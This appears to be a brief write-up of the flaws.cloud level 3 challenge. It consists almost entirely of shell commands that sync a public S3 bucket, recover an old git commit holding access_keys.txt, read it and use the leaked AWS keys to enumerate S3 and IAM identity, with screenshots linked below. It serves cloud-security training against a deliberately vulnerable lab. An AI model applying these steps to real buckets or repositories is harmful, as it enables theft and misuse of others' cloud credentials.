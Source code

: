 # Leaking AWS keys by commiting GIT REPO
```
host level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
host 52.92.249.131
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request .
git log
git status
git stash
git log
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61\n
ls
cat access_keys.txt
aws --profile=flaws-cloud-3 s3 ls
aws --profile=flaws-cloud-3 iam get-user
aws --profile=flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ca475f64-5520-4fcd-8df6-21b1a26615f2)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/069d9d56-22ca-40ac-bec6-e86bb2e0f4d9)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/b3039c0e-11c7-4ca7-833f-e55e01181720)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/437f8e36-e5bb-4fac-a68c-8db7642f0f48)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/cf354dd2-dd61-4031-8d97-d303df794dac)






